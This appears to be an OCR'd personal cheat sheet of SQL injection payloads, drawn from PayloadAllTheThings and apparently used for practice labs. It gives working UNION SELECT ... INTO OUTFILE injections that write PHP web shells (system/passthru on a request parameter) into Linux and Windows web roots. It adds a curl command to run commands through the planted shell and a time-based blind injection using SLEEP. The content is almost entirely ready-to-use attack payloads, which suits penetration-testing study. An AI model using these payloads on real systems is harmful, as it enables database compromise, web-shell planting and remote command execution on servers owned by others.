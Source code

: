 # SQL Injection

## Into outfile method (PayloadAllTheThings)
- SQL Injection write to file via shell
```
test' union select '<?php echo system($_REQUEST["bingo"]); ?>' into outfile '/srv/http/cmd.php' -- -
```
```
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -' 
```
- Then, `curl http://<ip>/command.php?cmd=<cmdlet>`.

- If it does not work, encode all characters and send via `curl`.

## Blind
```
TEST' UNION SELECT SLEEP(10);-- -
```
- PG-Practice Blind SQL Injection, check for walkthrough
